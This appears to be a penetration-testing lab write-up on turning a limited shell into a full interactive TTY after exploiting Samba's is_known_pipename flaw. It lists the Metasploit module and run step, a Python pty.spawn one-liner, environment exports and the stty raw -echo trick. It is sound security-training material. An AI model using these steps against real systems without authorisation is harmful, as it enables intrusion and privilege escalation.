







# Upgrading Non-Interactive Shells

**Classification:** Host & Network Penetration Testing / Post-Exploitation<br>
**Target:** Linux host (Samba `is_known_pipename`)

## 1. Executive Summary

Many exploits return a limited, non-interactive shell (no job control, no tab completion, no
`su`/`sudo` prompts). After exploiting **Samba** (`is_known_pipename`), we upgrade the shell
to a fully interactive TTY with Python's `pty.spawn`, then fix `PATH`, `TERM` and `SHELL`.

## 2. Foothold

```bash
nmap -sV <target>
use exploit/linux/samba/is_known_pipename
run
```





## 3. Checking Available Shells

```bash
cat /etc/shells
```





## 4. Spawning an Interactive TTY (Python)

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```



## 5. Fixing the Environment

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```



```bash
export TERM=xterm
export SHELL=/bin/bash
```



> Backgrounding with Ctrl+Z and running `stty raw -echo; fg` on the attacker further upgrades
> the TTY (full job control and arrow keys).

## 6. Notes

A full TTY is needed for interactive tools (`su`, `ssh`, `sudo`, text editors) and for clean
privilege escalation — a core post-exploitation quality-of-life step.
